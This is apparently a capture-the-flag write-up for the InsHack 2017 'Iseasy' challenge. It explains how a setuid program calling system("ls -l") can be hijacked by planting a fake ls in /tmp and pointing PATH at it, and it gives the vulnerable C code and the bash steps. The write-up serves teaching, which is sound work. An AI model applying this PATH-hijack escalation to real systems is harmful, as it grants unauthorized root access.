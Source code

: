 ```yaml
---
title: "Iseasy | InsHack 2017"
tags: ["pwn", "privilege escalation"]
points: 75
solves: 127
---
```


A simple privilege escalation, taking advantage of the `PATH` environment variable.

## Overview
The challenge source code is just this little snippet:
```c
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?


## Solution
Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable. That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

The solution is something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```bash
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```bash
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` we get a shell!
```bash
export PATH=/tmp/a
./vuln
```
